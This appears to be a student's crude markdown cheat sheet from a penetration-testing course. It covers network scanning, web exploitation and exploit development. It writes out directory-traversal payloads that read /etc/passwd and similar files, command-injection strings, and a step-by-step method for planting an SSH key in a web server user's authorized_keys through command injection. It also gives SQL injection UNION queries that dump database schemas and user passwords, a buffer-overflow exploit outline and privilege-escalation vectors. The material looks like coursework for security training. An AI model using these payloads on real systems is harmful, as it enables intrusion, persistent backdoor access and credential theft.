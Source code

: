 # *****SHITS VIOLENTLY**** 💯
### Host Discovery
- Narrow the scope 
  - ping sweep (see whats out there maybe cuz huge subnet)
    - `for i in {1..254} ;do (ping -c x.x.x.x | grep "bytes from" &) ;done`
  - now can enumerate the hosts, nmap
    - nmap the well-known ports, notice some important services
      - say it's http, you can use those scripts, some examples below:
      - `nmap -v -sT -Pn -T4 --script http-robots.txt.nse X.X.X.X`
      - `nmap -v -sT -Pn -T4 --script http-enum.nse X.X.X.X`
        - may need `=` connecting "--script" with "http-blahblah"
      - `nikto -h X.X.X.X`
- use web exploitation tools (view source, sql, inspect element, etc) ***HE SAID SOMETHING ABOUT CHANGING OPACITY, CODE COULD BE BLACK AND/OR WHITE IN PAGE SRC OR CONSOLE THAT WOULD'T NORMALLY BE VISIBLE***

### Web Exploitation
- Directory Traversal - information
  - ../../../../../../../../etc/passwd
  - ../../../../../../../../etc/group
  - ../../../../../../../../etc/hosts
  - ../../../../../../../../etc/networks
  - ../../../../../../../../etc/resolv.conf
- Cmd Injection - Information/Access
  - `; id`
  - `; whoami`
  - `; cat`
  - `; <CMD>`
- want to upload your SSH key to user that you are home directory
  - find the default home directoru, for the user, based off of /etc/passwd
    - `www-data:x:33:33:www-data:/var/www:/bin/bash` 
  - generate your own ssh keys 
    - `@linops: ssh-keygen -t rsa -b 4096` 
      - set no password
      - saves public key in /home/student/.ssh/id_rsa.pub
        - **dont use privat key dumbass**
      - `cat /home/student/.ssh/id_rsa.pub
      - copy the text and save it to put it on the vulnerable web stuff
  - utilizing command injection,
  - `; ls -la /var/www` to see what's there
    - if /.ssh directory is not there, create it
    - `; mkdir var/www//.ssh`
  - `; touch /var/www/.ssh/authorized_keys`
  - `; ls -la /var/www/.ssh` - **ALWAYS CHECK TO MAKE SURE THE THINGS YOU DID ACTUALLY HAPPENED**
  - `; echo "(id_rsa.pub conents)" >> /var/www/.ssh/authorized_keys`
  - `ssh -i .ssh/id_rsa www-data@X.X.X.X`
    - www-data being the user that you are when you're on the webpage
- Good walkthrough for all this on **Web Exploitation Day 1** 
- POST method = input field box 
  - `test' or 1='1`
  - `test' or 1='1;`
  - `test' or 1='1; #`
  - `test' or 1='1; --`
   - Can also try `OR` instead of `or` cuz shit is finnickyfuct
  - throw it in both fields
  - see if it breaks?
- GET method = url thing
  - information may be different thatn POST method
  - can keep interacting with the page to see how the url changes
  - blahblahblah.php?Selection=**1**&submitblahblah
    - see that 1 changes to 2 or 3 and stuff 
      - .php?Selection=1 or 1=1
        - %20 represents a space in a URL field
      - .php?Selection=2 or 1=1
        - and 3 and 4 and so on
          - different syntaxes `=2 or 1= 1;` `=2 or 1=1; #` and stuff same shit as POST method
  - GOLDEN STATEMENT
    - on vulnerable page, 
      - Selection=2 UNION select table_schema,table_name,column_name from information.schema.columns 
      - columns = Table, This table exists within the information_schema database
      - table_schema = Column, List out database names 
      - Column_name = Column, List out the column names
        - see that there's a column name thing called session, with column names (middle column) from user table (right)
        - UNION select 1,2,3,4,5,6 #
        - UNION select 1,2,3 #
          - let's say 2 showed 4 showed and 6 showed
          - UNION select 1,table_schema,3,table_name,5,column_name from information_schema.columns
            - put the things we wanted in their respective fields and filled in the rest with placeholder numbers
        - UNION select id,name,pass from session.user

### Reverse Engineering / Exploit Development
- static analysis : file, strings
- Behavioral analysis: run the file (what normal looks like)
---
- find the offset 
  - gdb, buffer overflow pattern generator 
- Validate EIP with B
- crafted exploit
  - offset
  - EIP/JMP ESP placeholder
  - NOP sled
- generate shellcode
- find JMP ESP from the **Target Machine's** memory 
  - `env -gdb <program name>` 
- replace EIP/JMP ESP placeholder with valid JMP ESP memory address
- verify exploit
  - offset
  - JMP ESP (Big endian to Little endian)
  - NOP sled
  - shell code
  - Does sudo matter? yes. Need to run program as sudo to invoke root privileges
  
### Exploiting tings 
- SUID/SGID
- cron
- run-parts
- "." in path
- /etc/sudoers
- sudo -l 
- GTFObins
- /var/tmp and/or /tmp/


.














